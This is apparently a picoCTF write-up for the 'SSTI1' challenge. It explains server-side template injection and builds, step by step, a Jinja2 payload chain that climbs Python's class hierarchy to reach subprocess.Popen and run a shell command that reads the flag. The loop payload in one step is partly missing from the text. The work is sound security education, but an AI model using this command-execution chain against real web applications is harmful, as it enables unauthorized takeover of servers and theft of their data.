




# SSTI1

**Author:** Venax

---

## Description

I made a cool website where you can announce whatever you want! Try it out!

I heard templating is a cool and modular way to build web apps! Check out my website here!

**Hints:** Server Side Template Injection

---

## What is SSTI?

Server Side Template Injection (SSTI) is a vulnerability that occurs when user input
is embedded into a template engine in an unsafe way. Instead of treating the input as
plain text, the server **executes it as code**, which can allow an attacker to:

- Read sensitive files on the server
- Execute arbitrary commands
- Gain full control of the server in some cases

Common template engines vulnerable to SSTI include **Jinja2** (Python),
**Twig** (PHP), and **Freemarker** (Java).

---

## Solution

### Step 1: Detect SSTI Vulnerability


To check if the website is vulnerable to SSTI, I injected a simple math payload:

```
{{7*7}}
```

If the server returns `49` instead of `{{7*7}}`, it means the server is **executing our input** — confirming the SSTI vulnerability.

---

### Step 2: Identify the Template Engine



To identify which template engine is being used, I tested two payloads:

| Payload     | Output | Meaning                   |
| ----------- | ------ | ------------------------- |
| `{{7*7}}`   | `49`   | Server is executing input |
| `{{7*'7'}}` | `49`   | Confirms **Jinja2**       |




> **Why does `{{7*'7'}}` confirm Jinja2?**
> In Jinja2, multiplying a number by a string repeats it — but it still evaluates to `49` here.
> In Twig (PHP), the same payload would return `7777777` instead.

---

### Step 3: Exploit with Jinja2

I read the Jinja2 SSTI syntax from [HackTricks - Jinja2 SSTI](https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html).

Since this was my first time doing SSTI, I used Claude to help me understand and construct the payload step by step. Instead of asking for a ready-made payload, I studied each step to understand how and why it works.

---

**Payload 1** — Get the class of a list object:

```
{{[].__class__}}
```

- `[]` — an empty list, used as a starting object to climb the Python class hierarchy
- `.__class__` — gets the type/class of that object

✅ Output: `<class 'list'>`

---

**Payload 2** — Get the base class:

```
{{[].__class__.__base__}}
```

- `.__base__` — gets the parent class of `list`, which is `object`
- Every Python class ultimately inherits from `object`

✅ Output: `<class 'object'>`

---

**Payload 3** — List all subclasses:

```
{{[].__class__.__base__.__subclasses__()}}
```

- `.__subclasses__()` — returns every class that inherits from `object`, which includes powerful built-in classes loaded in memory

✅ Output:


---

**Payload 4** — Find the index of `Popen`:

```

  
    {{i}}
  

```

Breaking it down:

- `|length` — Jinja2 filter that counts the total items in the list (like `len()` in Python)
- `range(...)` — generates numbers from `0` to that count
- `` — loops through every index
- `.__name__` — gets the name of the class at position `i`
- `` — checks if the class is `Popen`
- `{{i}}` — prints the index if matched

✅ Output: `356` — meaning `subprocess.Popen` is at index 356

---

**Payload 5** — Execute the command and get the flag:

```
{{[].__class__.__base__.__subclasses__()[356]('cat flag',shell=True,stdout=-1).communicate()}}
```

Breaking it down:

- `[356]` — selects `subprocess.Popen` from the subclasses list
- `'cat flag'` — the shell command to run
- `shell=True` — tells it to run through the shell
- `stdout=-1` — same as `subprocess.PIPE`, captures the output
- `.communicate()` — executes the process and returns `(stdout, stderr)`

✅ Output: `(b'picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}', None)`

---

## Sources

- [HackTricks - Jinja2 SSTI](https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html)
- [PortSwigger - SSTI](https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack)

---

## Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_f5438664}
```
